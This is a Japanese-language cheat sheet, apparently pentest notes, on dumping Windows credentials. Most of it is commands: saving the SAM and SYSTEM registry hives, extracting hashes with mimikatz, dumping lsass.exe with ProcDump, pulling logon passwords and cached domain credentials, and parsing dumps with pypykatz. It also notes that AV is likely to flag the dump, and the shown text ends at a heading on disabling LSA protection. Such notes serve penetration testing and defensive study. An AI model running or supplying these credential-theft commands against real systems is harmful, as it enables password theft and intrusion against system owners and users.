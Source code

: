 ```shell
# レジストリからSAMおよびSYSTEMファイルを保存する
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

```sh
mimikatz # lsadump::sam /sam:"C:\Users\Administrator\Desktop\sam-reg" /system:"C:\Users\Administrator\Desktop\system-reg"
```

## ローカル セキュリティ機関サーバー サービス (LSASS)

### lsass.exe プロセスダンプの作成

#### 注意点

- 管理者権限が必要。
- ディスクに書き込むため、AV によってフラグ付けされる可能性が高い。
- ユーザーのハッシュを得るには、ユーザーがシステムにログインして、ユーザーの資格情報がキャッシュされている必要がある。

#### 使えるツール

1. GUI が使える場合、タスクマネージャから右クリックで作成可能
1. Sysinternals の ProcDump を使用
1. mimikatz を使用

```shell
# ProcDump
procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump
```

```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

キャッシュされたドメイン認証情報を抽出

```sh
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

mimikatz # lsadump::cache
```

pypykatz

```sh
pypykatz lsa minidump <dump-file>
```

#### LSASS 保護の無効化

通常、レジストリ設定により LSA 保護されていてダンプ失敗する。

